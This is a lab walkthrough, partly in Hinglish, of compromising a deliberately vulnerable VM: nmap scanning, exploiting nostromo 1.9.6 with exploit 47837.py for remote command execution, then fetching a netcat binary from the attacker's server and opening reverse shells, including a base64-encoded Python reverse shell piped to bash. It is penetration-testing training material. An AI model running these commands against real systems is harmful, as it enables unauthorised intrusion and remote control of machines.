

# MyWeb Server

\

## 

## MyWeb Server

- **MyWeb Server** :-

<!-- -->

- Download the machine and import in vm
  box :

<!-- -->

- Go to repo :
  <https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA>

- Download the machine :

- Import the machine in virtual box :



- Automatic assign IP to the machine :

- Run nmap command to scan :

    nmap -v -p- 192.168.2.248

- Output file save :

    nmap -v -sT -sV -sC -A -p- 192.168.2.248 -oA my-web-server.txt



- Connect to an HTTP Server on Port 80 :

    nc 192.168.2.248 80

- Connect with Verbose Output :

    nc -v 192.168.2.248 80

- Check port for vulnerability and every port take 15 min :



- Check version search in google :

Apache httpd 2.4.38 ((Debian)) exploit



 Iss port me kuch v nhi h ye fix h .

nostromo 1.9.6 exploit



 Isme ye bta rha h remote code execution h or
version v same h .

- Download the exploit :

- Open the exploit in vim :

- Running the Exploit :

<!-- -->

- Run this command :

    python 47837.py 

 Show the error

- Open this file 47837.py in vim : Edit the exploit if required (payload
  tuning, port changes, compatibility fixes).

    vim 47837.py



- Then run a python :

    python 47837.py

    python2.7 47837.py



- General Syntax : python 47837.py \<target_ip\> \<target_port\>
  \<command\>

<!-- -->

- Execute basic commands :

    python2.7 47837.py 192.168.2.248 2222 id

 id command execute .

    python2.7 47837.py 192.168.2.248 2222 'ip a'

    python2.7 47837.py 192.168.2.248 2222 'pwd'

    python 47837.py 192.168.2.248 2222 "uname -a"

    python2.7 47837.py 192.168.2.248 2222 "which nc"

    python2.7 47837.py 192.168.2.248 2222 "php -v"

    python2.7 47837.py 192.168.2.248 2222 "which python"

Note :- Yha tk vulnerability mil gyi or exploit v ho gyi .

- Reverse Shell Techniques :

<!-- -->

- Download this binaries : (nc32 , nc64) :
  [https://github.com/H74N/netcat-binaries/blob/master/build](https://github.com/H74N/netcat-binaries/blob/master/build/nc32)

<https://github.com/H74N/netcat-binaries/blob/master/build/nc32>

<https://github.com/H74N/netcat-binaries/blob/master/build/nc64>



    sudo mv -v nc32 nc64 /opt/nc

- Then go terminal and run python server on location :

    cd /opt/nc

- 

    sudo python3 -m http.server 443

 get request aani chahiye .

- Upload Netcat binary :

    python2.7 47837.py 192.168.2.248 2222 "wget http://192.168.2.219:443/nc64 -O /tmp/nc64"

    python2.7 47837.py 192.168.2.248 2222 "ls -lh /tmp/"

    python2.7 47837.py 192.168.2.248 2222 "chmod +x /tmp/nc64"



- Launch Netcat reverse shell :

    python2.7 47837.py 192.168.2.248 2222 "/tmp/nc64 -e /bin/bash 192.168.2.219 443"

- Listener on attacker machine :

    nc -nlvp 443

 reverse shell mil gya h .

- If nc is not install in server side then any language ( like : python
  ) install it then take a reverse shell .

<!-- -->

- Reverse Shell Generator :

<!-- -->

- Visit the link : <https://www.revshells.com/>

 Copy and paste in base64 and encode the value .

- In base64 :

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.219",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

<https://www.base64encode.org/>





- Base64-Encoded Python Reverse Shell :

    python2.7 47837.py 192.168.2.248 2222 "echo 'cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4yLjIxOSIsNDQzKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=' | base64 -d | bash"

    nc -nlvp 443

 Reverse shell mil gya .

